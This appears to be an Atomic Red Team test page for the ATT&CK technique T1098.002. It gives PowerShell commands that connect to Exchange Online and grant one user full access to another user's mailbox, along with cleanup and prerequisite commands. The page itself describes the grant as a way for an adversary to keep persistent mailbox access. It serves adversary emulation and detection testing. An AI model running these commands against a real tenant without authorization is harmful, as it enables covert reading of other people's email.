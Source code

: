 ```yaml
---
tags: [T1098_002, atomic_test]
filename: "[[T1098.002|T1098.002 - Account Manipulation: Additional Email Delegate Permissions]]"
---
```

# T1098.002 - Account Manipulation: Additional Email Delegate Permissions

## Atomic Test #1 - EXO - Full access mailbox permission granted to a user
Give a nominated user, full mailbox delegation access of another user.
This can be used by an adversary to maintain persistent access to a target's mailbox in M365.

**Supported Platforms:** Office-365


**auto_generated_guid:** 17d046be-fdd0-4cbb-b5c7-55c85d9d0714





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | office-365 username | string | o365_user_test@contoso.com|
| password | office-365 password | string | o365_password_test|
| delegate_target | office-365 target_email | string | delegate@contoso.com|
| operator_mailbox | office-365 target_email | string | operator@contoso.com|


#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module ExchangeOnlineManagement
$secure_pwd = "#{password}" | ConvertTo-SecureString -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential -ArgumentList "#{username}", $secure_pwd
Connect-ExchangeOnline -Credential $creds
Add-MailboxPermission -Identity "#{delegate_target}" -User "#{operator_mailbox}" -AccessRights FullAccess -InheritanceType All
Disconnect-ExchangeOnline -Confirm:$false
```

#### Cleanup Commands:
```powershell
Import-Module ExchangeOnlineManagement
$secure_pwd = "#{password}" | ConvertTo-SecureString -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential -ArgumentList "#{username}", $secure_pwd
Connect-ExchangeOnline -Credential $creds
Remove-MailboxPermission -Identity "#{delegate_target}" -User "#{operator_mailbox}" -AccessRights FullAccess -InheritanceType All -Confirm:$false
Disconnect-ExchangeOnline -Confirm:$false
```



#### Dependencies:  Run with `powershell`!
##### Description: ExchangeOnlineManagement PowerShell module must be installed
##### Check Prereq Commands:
```powershell
$RequiredModule = Get-Module -Name ExchangeOnlineManagement -ListAvailable
if (-not $RequiredModule) {exit 1}
if (-not $RequiredModule.ExportedCommands['Connect-ExchangeOnline']) {exit 1} else {exit 0}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name ExchangeOnlineManagement
```




<br/>
